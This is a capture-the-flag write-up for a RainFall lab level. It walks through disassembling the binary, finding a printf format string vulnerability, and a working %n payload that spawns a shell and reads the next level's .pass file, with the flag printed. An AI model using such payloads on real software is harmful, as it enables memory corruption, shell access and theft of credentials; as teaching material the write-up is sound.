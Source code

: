 # Level 3

Once logged in, you will see a binary `level3`.

```
$ ssh level3@localhost -p 4444
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level3@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
level3@RainFall:~$ ls
level3
```

Let's run this and see what this does.

```
level3@RainFall:~$ ./level3

```

This one has the same behavior as level2.

```
level3@RainFall:~$ ./level3
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
level3@RainFall:~$
```

Now let's take a look at the binary.

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   ebp
   0x0804851b <+1>:     mov    ebp,esp
   0x0804851d <+3>:     and    esp,0xfffffff0
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
```

Let's take a look at the function `v`.

```
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x218
   0x080484ad <+9>:     mov    eax,ds:0x8049860
   0x080484b2 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:    lea    eax,[ebp-0x208]
   0x080484c4 <+32>:    mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    eax,[ebp-0x208]
   0x080484d2 <+46>:    mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    eax,ds:0x804988c
   0x080484df <+59>:    cmp    eax,0x40
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    eax,ds:0x8049880
   0x080484e9 <+69>:    mov    edx,eax
   0x080484eb <+71>:    mov    eax,0x8048600
   0x080484f0 <+76>:    mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:    mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:    mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:    mov    DWORD PTR [esp],eax
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
```

On line `<+59>`, if a value stored in eax is stored `0x40` is not equal, it will jump to `<v+116>`, otherwise `fwrite` and `system` function will be executed.

Below are the strings stored in the address relevant to the `fwrite` and `system`:
```
gdb-peda$ x/s 0x8048600
0x8048600:       "Wait what?!\n"
gdb-peda$ x/s 0x804860d
0x804860d:       "/bin/sh"
```

In order to exploit this program, an FSV (Format String Vulnerability) will be used, as the function `printf` is used. But what is FSV and how is `printf` vulnerable? This [video](https://www.youtube.com/watch?v=0WvrSfcdq1I) does a great job at explaining how an FSV is exploited.

On line `<+54>`, we can see the value `0x40` is compared with the value in the address `0x804988c`, the variable `m`.

```
gdb-peda$ info variables
All defined variables:

Non-debugging symbols:
0x080485f8  _fp_hw
0x080485fc  _IO_stdin_used
0x08048734  __FRAME_END__
0x08049738  __CTOR_LIST__
0x08049738  __init_array_end
0x08049738  __init_array_start
0x0804973c  __CTOR_END__
0x08049740  __DTOR_LIST__
0x08049744  __DTOR_END__
0x08049748  __JCR_END__
0x08049748  __JCR_LIST__
0x0804974c  _DYNAMIC
0x08049818  _GLOBAL_OFFSET_TABLE_
0x0804983c  __data_start
0x0804983c  data_start
0x08049840  __dso_handle
0x08049860  stdin@@GLIBC_2.0
0x08049880  stdout@@GLIBC_2.0
0x08049884  completed.6159
0x08049888  dtor_idx.6161
0x0804988c  m
```

If we try to pass in `%s` to the string format, it cases a segmentation fault.
```
level3@RainFall:~$ ./level3
%s
Segmentation fault (core dumped)
```

What if we pass `%x` into the input?

```
level3@RainFall:~$ ./level3
%x
200
```

As explained from above, if format string is passed into the variable, we can easily read memory from the stack.

```
level3@RainFall:~$ echo "%x %x %x %x" | ./level3
200 b7fd1ac0 b7ff37d0 25207825
```

The goal of this level is to find an offset where we reach the address of the variable we want to modify, so we need to see in which address our buffer is written.

```
$ echo "AAAA %x %x %x %x %x %x" | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825
````

We can see the offset of `AAAA` is 4 pointers (16 bytes).

We need to change the content of the variable m. Remember, the global variable `m` needs to have a size of 64. We accomplish this by using the `%n` modifier available in `printf`. This modifier sets the variable referenced by a provided pointer in arguments (or not provided in our case) to the number of characters printed so far.

In the following Python we print 64 characters and then put the `%n` with the `4$` modifier that tells `printf` to use the "fourth argument passed in". (This fourth argument isn't really passed in, but the program doesn't know that as those errors are caught in compile-time.)

```
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"' ; cat -) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

One interesting trick to try with this exploit: you can move around which `printf` argument it looks at by moving the exploit address around by multiples of 4, so the following exploits all work:

```
(python -c 'print "A"*0 + "\x8c\x98\x04\x08" + "A"*60 + "%4$n"' ; cat -) | ./level3
(python -c 'print "A"*4 + "\x8c\x98\x04\x08" + "A"*56 + "%5$n"' ; cat -) | ./level3
(python -c 'print "A"*8 + "\x8c\x98\x04\x08" + "A"*52 + "%6$n"' ; cat -) | ./level3
```
